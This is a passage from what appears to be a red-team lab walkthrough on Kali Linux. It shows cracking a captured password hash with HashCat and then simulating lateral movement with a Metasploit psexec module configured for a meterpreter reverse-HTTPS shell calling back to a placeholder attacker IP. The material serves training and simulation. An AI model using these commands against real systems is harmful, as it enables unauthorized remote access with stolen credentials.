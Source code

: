 The hash can now be cracked with a tool such as [HashCat](https://github.com/hashcat/hashcat):

Cut and paste the entire hash into a file named `hash.txt`

![](images/Kali%20Linux/image038.png)<br><br>

Run with the correct mode and wordlist (password must be in the wordlist you choose):

![](images/Kali%20Linux/image039.png)<br><br>

The account password will be in the `answer.txt` file:

![](images/Kali%20Linux/image040.png)<br><br>

Once the password was obtained, it was used with [Cobalt Strike](https://www.cobaltstrike.com/)'s `psexec_psh` module to start a service running as SYSTEM on a target machine.  We can simulate that using Metasploit's `exploit/windows/smb/psexec` module.

Type `msfconsole` to start up the Metasploit Framework console.

Type the following to select and configure the module:

```
use exploit/windows/smb/psexec
set payload windows/meterpreter/reverse_https
set rhost <target-ip>
set lhost <attacker-ip>
set lport 443
set smbuser <username>
set smbpass <password>
```


![](images/Kali%20Linux/image041.png)<br><br>
